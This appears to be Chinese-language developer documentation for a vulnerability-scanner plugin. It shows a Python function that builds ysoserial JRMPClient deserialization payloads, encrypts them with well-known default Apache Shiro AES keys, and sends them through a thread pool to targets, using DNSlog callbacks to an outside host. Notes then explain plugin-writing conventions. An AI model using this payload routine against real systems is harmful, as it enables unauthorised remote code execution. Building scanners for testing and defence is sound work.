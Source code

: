 ### medusa函数

```python
def medusa(Url:str,Headers:dict,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==","2AvVhdsgUs0FSA3SDFAdag==","3AvVhmFLUs0KTA3Kprsdag==","4AvVhmFLUs0KTA3Kprsdag=="
                 ]
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = scheme + "://" + url + ":" + str(port)
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
    try:

        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(10)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名
```

##### 注意点：

- 所有全局变量都存放这边，也就是说这个参数并不会在后面需要改变了，比如处理好的目标连接`payload_url `、**ysoserial.jar**的路径地址`YsoserialPath`、循环使用**Key**的列表`CipherKey`等参数都存放到这个函数中
- 循环调用需要在`try....except`中
- 如果所执行的代码在其他线程中的判断也能找到的话，该代码需要写在`for`循环中，比如上面的`Dnslog()`函数，如果所有线程都使用同一个DNSLOG的话就会导致如果其中一个执行成功，后面的所有线程都能找到请求的这个值，导致大量的误报
- 每个多线程必须`for`循环上面定义一个 `ThreadPool()`线程池，然后使用进程池中的`Append()`函数发送到进程池中，最后循环结束后调用线程池中的`Start(10)`函数来启动所有的线程
- `Append()`函数的第一个参数必须是需要调用的函数，这边统一叫做`task`函数，传入的参数必须添加`Uid=kwargs.get("Uid")`和`Sid=kwargs.get("Sid")`参数
- `task`函数需要使用到的参数、初始化的后的类都必须使用`Append()`函数来传入，具体方式见上述函数用法
